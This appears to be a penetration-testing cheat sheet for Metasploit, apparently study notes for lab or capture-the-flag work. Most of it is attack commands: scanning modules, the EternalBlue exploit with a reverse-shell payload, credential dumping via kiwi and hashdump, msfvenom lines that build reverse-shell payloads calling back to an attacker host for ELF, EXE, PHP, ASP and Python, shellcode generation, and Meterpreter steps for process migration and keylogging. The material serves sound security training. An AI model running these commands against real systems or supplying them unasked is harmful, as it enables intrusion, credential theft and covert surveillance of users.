 # Metasploit

> Shahrukh Tramboo | February 3rd, 2022

--------------------------------------

**Scanning**

1.	Port Scanning:

```bash
search portscan
```

2.	UDP service Identification:

The
```bash
scanner/discovery/udp_sweep
```
module will allow you to quickly identify services running over the UDP (User Datagram Protocol).

3.	SMB Scans:

Especially useful in a corporate network would be 

```bash
scanner/smb/smb_enumshares 
```
and
```bash
scanner/smb/smb_version
```

---------------------------------------------

**Exploitation**

For this service: Windows 7 Professional 7601 Service Pack 1 x64 (64-bit), Use this exploit:windows/smb/ms17_010_eternalblue with this payload:generic/shell_reverse_tcp.

Metasploit payloads can be initially divided into two categories; inline (also called single) and staged.
staged payloads are sent to the target in two steps.
An initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size.
The inline payloads are sent in a single step.

---------------------------------------------


**Post Exploitation**

Metasploit offers Mimikatz and Kiwi extensions to perform various types of credential-oriented operations, such as dumping passwords and hashes, dumping passwords in memory, generating golden tickets, and much more.

Windows
```bash
meterpreter> load kiwi
creds_all
hashdump
```

Linux
```bash
msf6> use post/linux/gather/hashdump
```

Windows
```bash
msf6> use post/windows/gather/enum_shares
```


------------------------------------------------

**MSFVenom**

Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.

Encoders:

The example below shows the usage of encoding (with the -e parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was raw.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```
------------------------------------------------------

**Meterpreter Payload**

Linux Executable and Linkable Format (elf)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
````

Windows
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

ASP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

Python
```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

Meterpreter payloads are also divided into stagged and inline versions. However, Meterpreter has a wide range of different versions you can choose from based on your target system. 

```bash
msfvenom --list payloads | grep meterpreter
```

**Generate shellcode for windows**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=443 -b "\x00\x0a" -f python -v payload
```

---------------------------------------------------------

**Meterpreter Commands**

background:	 	Backgrounds the current session
exit:	 		Terminate the Meterpreter session
guid:	 		Get the session GUID (Globally Unique Identifier)
help:	 		Displays the help menu
info:	 		Displays information about a Post module
irb:	 		Opens an interactive Ruby shell on the current session
load:	 		Loads one or more Meterpreter extensions
migrate:	 	Allows you to migrate Meterpreter to another process
run:	 		Executes a Meterpreter script or Post module
sessions:	 	Quickly switch to another session

use help cpmmand to get more

getuid:	The getuid command will display the user with which Meterpreter is currently running. This will give you an idea of your possible privilege level on the target system (e.g. Are you an admin level user like NT AUTHORITY\SYSTEM or a regular user?)

ps:	The ps command will list running processes. The PID column will also give you the PID information you will need to migrate Meterpreter to another process.

migrate: Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process.
Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.
```bash
migrate 716
```

Hashdump: The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

Search:	The search command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, 

Shell: The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.

----------------------------------------------------------




